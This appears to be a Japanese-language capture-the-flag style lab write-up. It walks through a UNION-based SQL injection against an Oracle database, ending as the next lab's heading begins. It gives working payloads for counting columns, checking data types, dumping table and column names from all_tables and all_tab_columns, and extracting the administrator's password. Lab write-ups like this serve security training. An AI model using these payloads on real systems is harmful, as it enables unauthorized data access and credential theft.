 ### analyze

脆弱性の箇所は前回のラボと同じです。

`'`,  `''` で挙動に差があります。

また、`Pets ' union select null, null from dual-- —`  は200 OKですが、nullが1つ、3つのときは500 Errorなので返却カラムが2つであることもわかります。

### expoit

1. 返却カラムのデータ型の特定
    
    ```bash
    Pets ' union select 'a', 'a' from dual-- --
    ```
    
    - 200 OKのためどちらもcharであることがわかる

データ型が特定できたので以下の手順でラボをクリアします。

1. tableのダンプ
2. columnのダンプ
3. 取得したtable名・カラム名を使って終わり

tableのダンプです。

`all_tables` からtable_nameを指定して抜いてきます。

```bash
Pets ' union select table_name, 'a' from all_tables-- --
```

`USERS_JIZWKE` **というテーブル名を得ることができました。(多分これはラボによってランダム)**

columnのダンプ

https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2094.htm

`ALL_TAB_COLUMNS` が使えそうです。

```bash
Pets ' union select column_name, 'a' from all_tab_columns where table_name='USERS_JIZWKE'-- --
```

コレにより、`PASSWORD_LIHCST` , `USERNAME_SDIAIQ` カラムがあることがわかりました。

あとはやるだけです。

```bash
Pets ' union select PASSWORD_LIHCST, USERNAME_SDIAIQ from USERS_JIZWKE where USERNAME_SDIAIQ='administrator'-- --
```

## ****SQL injection UNION attack, retrieving multiple values in a single column****

---

### goal
